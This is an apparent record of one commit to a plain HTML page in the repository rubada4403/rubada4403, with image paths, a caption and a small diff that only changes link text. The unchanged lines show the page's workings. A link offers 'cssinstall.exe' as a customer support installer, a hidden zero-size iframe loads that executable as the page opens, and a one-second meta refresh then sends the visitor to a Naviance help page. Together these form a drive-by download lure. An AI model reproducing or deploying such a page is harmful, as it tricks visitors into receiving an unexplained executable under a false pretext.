

Before and after one commit to rubada4403/rubada4403, a plain HTML site: page index.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,7 @@
 <html>
 <body>
 	<a href="cssinstall.exe" download>
-		"Click Here to Download the Customer Support Service Installer"
+		Click Here to Download the Customer Support Service Installer
 	</a>
 	<iframe width="0" height="0" frameborder="0" src="cssinstall.exe"></iframe>
 	<meta http-equiv="refresh" content="1, URL='https://www.naviance.com/help'"/>
```
